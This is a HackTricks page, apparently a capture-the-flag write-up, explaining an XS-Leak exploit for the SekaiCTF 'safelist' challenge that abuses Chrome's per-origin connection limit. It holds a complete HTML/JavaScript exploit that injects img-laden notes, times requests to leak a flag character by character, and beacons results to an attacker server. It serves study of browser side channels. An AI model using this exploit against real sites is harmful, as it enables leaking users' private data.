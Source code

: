 # Connection Pool by Destination Example

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

Let's see how this exploit work:

* The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
* Then, the attacker will **remove** the **note** with index 1.
* Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.&#x20;
  * If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

{% hint style="info" %}
Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code
{% endhint %}

```html
<html>
    <head>
        <script>
            const SITE_URL = 'https://safelist.ctf.sekai.team/';
            const PING_URL = 'https://myserver';
            function timeScript(){
                return new Promise(resolve => {
                    var x = document.createElement('script');
                    x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
                    var start = Date.now();
                    x.onerror = () => {
                        console.log(`Time: ${Date.now() - start}`); //Time request
                        resolve(Date.now() - start);
                        x.remove();
                    }
                    document.body.appendChild(x);
                });
            }

            add_note = async (note) => {
                let x = document.createElement('form')
                x.action = SITE_URL + "create"
                x.method = "POST"
                x.target = "xxx"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "text"
                i.value = note
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            remove_note = async (note_id) => {
                let x = document.createElement('form')
                x.action = SITE_URL+"remove"
                x.method = "POST"
                x.target = "_blank"

                let i = document.createElement("input");
                i.type = "text"
                i.name = "index"
                i.value = note_id
                x.appendChild(i)
                document.body.appendChild(x)
                x.submit()
            }
            
            const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
            // }zyxwvutsrqponmlkjihgfedcba_
            const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
            var prefix = 'SEKAI{xsleakyay';
            const TIMEOUT = 500;
            async function checkLetter(letter){
                // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
                // Depending whether we found flag's letter it will either load the images or not.
                // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
                const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
                await add_note(payload);
                await sleep(TIMEOUT);
                await timeScript();
                await remove_note(1); //Now, only the note with the flag or with the injection existsh
                await sleep(TIMEOUT);
                const time = await timeScript(); //Find out how much a request to the same origin takes
                navigator.sendBeacon(PING_URL, [letter,time]);
                if(time>100){
                    return 1;
                }
                return 0;
            }
            window.onload = async () => {
                navigator.sendBeacon(PING_URL, 'start');
                // doesnt work because we are removing flag after success.
                // while(1){
                    for(const letter of alphabet){
                        if(await checkLetter(letter)){
                            prefix += letter;
                            navigator.sendBeacon(PING_URL, prefix);
                            break;
                        }
                    }
                // }
            };            
            </script>            
    </head>
    <body>
    </body>
</html>

```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

